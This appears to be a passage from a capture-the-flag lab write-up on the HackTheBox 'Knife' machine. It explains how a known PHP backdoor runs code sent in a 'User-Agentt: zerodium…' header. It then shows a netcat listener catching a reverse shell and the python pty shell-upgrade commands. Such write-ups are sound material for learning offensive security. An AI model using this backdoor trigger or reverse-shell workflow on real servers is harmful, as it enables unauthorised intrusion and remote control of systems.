 ### Backdoor Details

Because of how GitHub and open-source works, I can look right at the [commit that adds this backdoor](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d) into the PHP codebase. The commit changes one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

[![image-20210827112703573](https://0xdfimages.gitlab.io/img/image-20210827112703573.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210827112703573.png)

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

### RCE

To test this, I’ll send the GET request over to Burp Repeater and replace the `User-Agent` header with the malicious one:

[![image-20210522154141823](https://0xdfimages.gitlab.io/img/image-20210522154141823.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210522154141823.png)

It runs `system("id")` and the result is at the top of the response.

### Shell

I’ll replace `id` with a reverse shell, and run it again.

![image-20210522154302972](https://0xdfimages.gitlab.io/img/image-20210522154302972.png)

The response just hangs, but at `nc`, I’ve got a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.242] 55806
bash: cannot set terminal process group (933): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 

```

I’ll upgrade with the normal trick:

```

james@knife:/$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443 
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
james@knife:/$ 

```
